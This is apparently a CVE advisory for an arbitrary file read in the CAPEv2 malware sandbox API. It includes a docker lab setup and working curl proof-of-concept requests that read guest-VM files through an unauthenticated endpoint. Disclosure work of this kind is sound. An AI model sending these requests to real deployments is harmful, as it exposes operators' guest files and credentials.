



# CVE-2026-50931 — Arbitrary File Read via Guest-Agent `/retrieve` Forwarding in CAPEv2 `tasks_file_stream`

[CVE ID]
CVE-2026-50931

[PRODUCT]
kevoreilly/CAPEv2 — open-source malware sandbox and automated analysis platform (Django web front-end with a REST `apiv2` interface that orchestrates analysis VMs running the CAPE guest agent)

[VERSION]
master @ `23d3a2cbd7cc5840ff5e54544e4c26186cdc6ed4` (commit `23d3a2cbd7cc5840ff5e54544e4c26186cdc6ed4`)

[PROBLEM TYPE]
Arbitrary File Read via Unvalidated Path Forwarding (`CWE-22`)

## Description

`POST /apiv2/tasks/get/stream/<task_id>/` (route `web/apiv2/urls.py:46`, handler `tasks_file_stream` in `web/apiv2/views.py:2565`) accepts a JSON body whose `filepath` value is fully user-controlled (`filepath = request.data.get("filepath")`, `views.py:2596`). When `is_local` is not set — the normal case for a task running on an analysis VM — the host takes the value without any validation (the leading-`/` check exists only in the `is_local` branch, `views.py:2601-2603`) and forwards it verbatim to the guest agent running inside the analysis VM: `requests.post(f"http://{machine.ip}:8000/retrieve", stream=True, data={"filepath": filepath, "streaming": "1"})` (`views.py:2612`). On the guest, `agent/agent.py:600-605` routes `POST /retrieve` straight into `send_file(request.form["filepath"], ...)`, whose only checks are `os.path.isfile`/`os.access` (`agent.py:279`) before `open(self.path, "rb")` streams the bytes back (`agent.py:291`/`311`). No normalization, allowlist, or base-directory containment exists anywhere on the path, so an absolute attacker-chosen path is read from the guest OS and relayed to the HTTP caller as `application/octet-stream`.

Vulnerable code:
- Host forwarder: <https://github.com/kevoreilly/CAPEv2/blob/23d3a2cbd7cc5840ff5e54544e4c26186cdc6ed4/web/apiv2/views.py#L2596-L2616>
- Guest sink: <https://github.com/kevoreilly/CAPEv2/blob/23d3a2cbd7cc5840ff5e54544e4c26186cdc6ed4/agent/agent.py#L600-L605> and <https://github.com/kevoreilly/CAPEv2/blob/23d3a2cbd7cc5840ff5e54544e4c26186cdc6ed4/agent/agent.py#L266-L320>

## Proof of Concept

### Victim setup

Image `scdd-capev2:23d3a2c` is built from the pinned commit tarball with the runbook's `Dockerfile.scdd` (python:3.11-slim-bookworm + `requirements.txt`; entrypoint migrates the DB and runs gunicorn `web.wsgi`). The same image is started twice: once as the host web/API tier, once as the in-VM guest agent (`agent/agent.py`), so the real host-side forwarder talks to the real guest-side `/retrieve` handler. Analysis-VM records are created in the CAPE DB so that `machine.ip` points at the guest agent and `machine.status == "running"` (the C3/C4 state gate that the handler requires).

```bash
# host web/API tier (image prebuilt from pinned commit 23d3a2cbd7cc5840ff5e54544e4c26186cdc6ed4)
docker run -d --name scdd_50931_cape -p 38322:8000 scdd-capev2:23d3a2c

# guest agent (emulates the agent inside the analysis VM)
docker run -d --name scdd_50931_agent scdd-capev2:23d3a2c \
  bash -lc 'cd /app; exec python3 agent/agent.py 0.0.0.0 8000 -v'
AGENT_IP="$(docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' scdd_50931_agent)"

# minimal DB records: task + machine(ip=$AGENT_IP, status=running) + guest(status=running)
docker exec -e SCDD_AGENT_IP="$AGENT_IP" scdd_50931_cape bash -lc "cd /app; python3 - <<'PY'
import os, time
from lib.cuckoo.core.database import init_database
db = init_database(exists_ok=True)
dummy_path = f'/tmp/scdd_dummy_{int(time.time())}'
open(dummy_path, 'wb').write(b'hi')
task_id = db.add_path(dummy_path)
task = db.view_task(task_id)
mname = f'scddagent_{int(time.time()*1000)}'
m = db.add_machine(name=mname, label=mname, arch='x86', ip=os.environ['SCDD_AGENT_IP'],
                   platform='windows', tags='', interface='', snapshot='',
                   resultserver_ip='127.0.0.1', resultserver_port='2042', reserved=False)
m.status = 'running'
g = db.create_guest(m, manager='kvm', task=task)
g.status = 'running'
db.session.commit()
print(task_id)
PY"
```



### Attack steps

Anonymous `POST` to the host API (default `api.token_auth_enabled = False`, `taskstatus` API enabled): the `filepath` JSON field is an absolute path on the guest; the host forwards it to the guest agent `POST /retrieve` and relays the bytes.

```bash
# read /etc/services from the guest (analysis VM)
curl -sS -X POST -H 'Content-Type: application/json' \
  --data '{"filepath":"/etc/services"}' \
  "http://127.0.0.1:38322/apiv2/tasks/get/stream/1/" --max-time 8 | head -c 1024 > cape_guest_services.bin

# plant a marker file on the guest (forensic target; padded >1024 bytes because
# the host forwarder streams via requests iter_content(chunk_size=1024), which
# buffers short bodies until a full chunk or EOF):
docker exec scdd_50931_agent bash -lc 'printf "CVE50931_MARKER_SECRET=6f31c0e9a4d28b7c\n" > /tmp/cve50931_marker.txt; for i in $(seq 1 80); do echo "CVE50931_MARKER_FILLER_LINE_00000000000000000000000000000000000000_$i" >> /tmp/cve50931_marker.txt; done'

# read the planted file back through the host API (absolute guest path)
curl -sS -X POST -H 'Content-Type: application/json' \
  --data '{"filepath":"/tmp/cve50931_marker.txt"}' \
  "http://127.0.0.1:38322/apiv2/tasks/get/stream/1/" --max-time 8 | head -c 256 > cape_guest_marker.bin
```

(`--max-time`/`head -c` bound the read because the host always asks the agent with `streaming=1`, i.e. a `tail -f`-style response that stays open; curl rc 23/28 is expected.)



### Evidence

- `HTTP/1.1 200 OK`, `Content-Type: application/octet-stream`, 12288 bytes received within the window for `/etc/services`; `wc -c cape_guest_services.bin` = 1024 and `head -c 200` shows the guest's `/etc/services` content.
- Guest-agent access log confirms the forwarded requests: `172.17.0.2 - - [...] "POST /retrieve HTTP/1.1" 200 -` (and `404` for the non-existent-path control).
- Byte-identical comparison against `docker exec scdd_50931_agent` ground truth:
  - `/etc/services` first 1024 bytes sha256 `bc634b56d25379fbeb867bafc5fe553a82f20f4bb007f1050c532aeccbde5ae3` — HTTP response == container file (MATCH).
  - marker `/tmp/cve50931_marker.txt` first 256 bytes sha256 `3923c2cc9ef4f8316abf282383a5b1790159ea619c8cf4f394f69a71ee4731e0` — HTTP response starts with `CVE50931_MARKER_SECRET=6f31c0e9a4d28b7c` (MATCH).
- Controls: `{"filepath":"/no/such/file/on/guest"}` → `{"error":true,"error_value":"/no/such/file/on/guest does not exist"}` (error surfaced from the guest-branch forwarder); `{"filepath":"/etc/services","is_local":"1"}` → `{"error":true,"error_value":"Filepath mustn't start with /"}` (the leading-`/` guard exists only in the `is_local` branch, not in the guest branch).



## Impact

A remote, unauthenticated caller (default `api.token_auth_enabled = False`; `taskstatus` API enabled by default) who can reach the CAPE web interface can, whenever a task exists that is associated with a machine whose `machine.status` is `running` (the only state gate the handler checks, `views.py:2592`; the normal state during analysis), read any file on the guest VM that the guest agent process can read (`os.access(R_OK)`), via `POST /apiv2/tasks/get/stream/<task_id>/` with an absolute `filepath`. The bytes are relayed back as a `200 application/octet-stream` response; content is constrained to files readable by the agent on the guest OS, and very short files (< ~1 KB total) can be delayed by the host-side `iter_content(chunk_size=1024)` buffering until the stream is closed, while larger files stream immediately. On real deployments this exposes in-VM artifacts and any guest-readable files (e.g. dropped samples' companions, configuration, credentials left on the VM image) to anonymous web users.

## Occurrences

- `web/apiv2/views.py:2596` — `filepath = request.data.get("filepath")` (tainted source)
- `web/apiv2/views.py:2612` — `requests.post(f"http://{machine.ip}:8000/retrieve", ..., data={"filepath": filepath, ...})` (unvalidated forward to the guest agent)
- `agent/agent.py:600-605` — `/retrieve` route passes `request.form["filepath"]` to `send_file`
- `agent/agent.py:271` / `agent/agent.py:279` — `self.path = path`; only `os.path.isfile`/`os.access` checks, no normalization/containment
- `agent/agent.py:291` and `agent/agent.py:311` — `open(self.path, "rb")` sinks

## References

- [CVE-2026-50931](https://www.cve.org/CVERecord?id=CVE-2026-50931)
- [kevoreilly/CAPEv2](https://github.com/kevoreilly/CAPEv2) — pinned commit `23d3a2cbd7cc5840ff5e54544e4c26186cdc6ed4`
